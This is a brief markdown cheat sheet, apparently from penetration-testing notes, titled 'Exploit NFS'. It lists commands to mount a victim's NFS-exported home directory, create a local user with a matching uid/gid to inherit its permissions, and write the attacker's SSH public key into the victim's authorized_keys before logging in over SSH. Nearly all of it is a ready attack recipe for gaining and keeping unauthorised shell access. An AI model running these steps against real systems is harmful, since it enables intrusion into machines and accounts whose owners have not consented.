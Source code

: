 ### Exploit NFS

```
mkdir /mnt/user_name
mount [victim_ip]:/home/user_name /mnt/user_name
````
#### sometimes we need create user with specific uid/gid
```
groupadd -g 1005 user_name
adduser user_name -uid 1001 -gi 1005
su user_name
```
#### ssh keygen
```
ssh-keygen
mkdir /mnt/user_name/.ssh
touch /mnt/user_name/.ssh/authorized_keys
cat ~/.ssh/id_rsa.pub > /mnt/user_name/.ssh/authorized_keys
ssh use_name@[victim_ip
```


